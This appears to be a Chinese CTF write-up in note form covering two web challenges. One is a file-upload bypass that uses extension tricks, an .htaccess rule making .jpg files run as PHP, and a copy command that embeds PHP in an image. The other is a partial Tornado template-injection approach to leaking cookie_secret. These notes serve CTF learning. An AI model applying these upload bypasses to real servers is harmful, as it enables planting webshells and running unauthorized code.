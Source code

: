 # [MRCTF2020]你传你🐎呢

双写大小写绕过

后缀绕过：空格 点 %00  

扩展名绕过: php3 php5 phtml php5 shtml pwml phtm 

以上每个类型试一下，抓包看php版本回显 5.6 可见不是上面的方式 图片马

.hatccess 

```
<FilesMatch "\.jpg">
  SetHandler application/x-httpd-php
</FilesMatch>
```

图片马命令

```
copy  1.jpg/b + 1.php/a 2.jpg
```

**![image-20241210163529566](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241210163529165-1511214938.png)**

# [护网杯 2018]easy_tornado

### ![image-20241210164401941](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241210164401498-1863589484.png)

![image-20241210164410873](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241210164410107-1052545020.png)

md5(cookie+md5(/fllllllllllllag))

3bf9f6cf685a6dd8defadabfb41a03a1

欸 我不知道cookie_secret在哪里啊 o tornado原来是一个模板 模板注入STTI获取cookie

render是python的一个渲染函数 也就是一种模板 通过调用的函数不同去生成不同的网页配合Tornado使用

tornado是一种web服务器软件的开源版本 和主流的web框架 有明显区别 是非阻塞服务器 速度相当快

这里通过模板中的快速访问对象，有些访问对象会指向cookie cookie应该找和handler相关的

搜索tornado cookie_secret泄露 tornado cookie 安全

比赛的时候我觉得我做不出这个题目 这两个文章要钱 我没得看 

## PYTHON SSTI

常见的模板有：jinja2、tornado

## tornado模板
